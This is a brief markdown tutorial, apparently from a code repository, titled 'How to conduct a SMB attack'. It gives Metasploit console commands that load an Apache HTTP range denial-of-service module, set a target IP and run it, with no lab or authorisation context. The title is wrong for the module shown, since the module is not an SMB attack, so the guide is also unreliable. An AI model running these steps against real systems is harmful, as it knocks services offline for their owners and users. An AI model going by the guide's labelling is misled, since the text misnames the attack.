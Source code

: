 # How to conduct a SMB attack
Use Metasploit Framework Console (msfconsole)

## Using msfconsole
- Open the terminal (Ctrl+Alt+T)
- Run ```msfconsole```
- Execute the following commands
```
use auxiliary/dos/http/apache_range_dos
set RHOST {TARGET IP}
```
- Now run the exploit by `run`
